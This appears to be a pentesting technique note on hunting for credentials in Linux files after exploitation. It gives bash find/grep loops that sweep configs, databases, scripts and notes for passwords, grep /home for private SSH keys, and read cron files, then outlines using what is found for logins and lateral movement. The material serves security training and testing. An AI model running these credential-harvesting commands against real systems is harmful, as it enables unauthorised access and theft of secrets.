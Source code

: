 ### Technique Name:

Credential Hunting via Files
### Summary:

Files are one of the richest sources of plaintext or poorly protected credentials in Linux systems. Developers, sysadmins, or automated systems often store hardcoded secrets in configuration files, backup dumps, notes, and even scripts. Exploring such files post-exploitation can reveal passwords, usernames, API tokens, and database credentials.
### Conditions:

- You have access to user or root-level file system.    
- Sufficient read permissions to scan user home directories, `/etc`, `/var`, `/opt`, and other common locations.
### Enumeration:
#### 1. Identify Interesting Files by Extension

Common extensions that may contain sensitive data:

```bash
for ext in ".conf" ".config" ".cnf"; do
  echo "Searching for $ext files:"
  find / -type f -name "*$ext" 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done
```
#### 2. Look for Hardcoded Credentials Inside Configs

Grepping for keywords like `user`, `password`, `pass`, `login`:

```bash
for file in $(find / -name "*.conf" -o -name "*.cnf" 2>/dev/null); do
  echo "Inspecting $file:"
  grep -Ei 'user|password|login|passwd' "$file" 2>/dev/null | grep -v "#"
done
```
#### 3. Search for Databases

```bash
for ext in ".sql" ".db" ".*db" ".db*"; do
  echo "Searching for $ext files:"
  find / -name "*$ext" 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man"
done
```
#### 4. Find Note Files & Loose Plaintext

```bash
find /home/* -type f \( -name "*.txt" -o ! -name "*.*" \) 2>/dev/null
```
#### 5. Script Files with Embedded Secrets

Useful for spotting passwords hardcoded into code:

```bash
for ext in ".sh" ".py" ".pl" ".jar" ".go" ".c"; do
  echo "Searching for $ext files:"
  find / -name "*$ext" 2>/dev/null | grep -v "doc\|lib\|headers\|share"
done
```
#### 6. Cronjobs

May contain executable scripts or secrets in scheduled jobs:

```bash
cat /etc/crontab
ls -la /etc/cron.*
```
#### 7. SSH Keys

Check for presence of SSH private/public key pairs:

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
### Exploitation:

- Extract plaintext secrets directly if visible.
- Use database or backup files to extract password hashes or contents.
- Use discovered private SSH keys to authenticate across systems.
### Post-Exploitation:

- Try SSH, sudo, database login, or internal app access using the credentials.    
- Dump the credentials in your loot folder.
- Attempt lateral movement if credentials belong to privileged users.
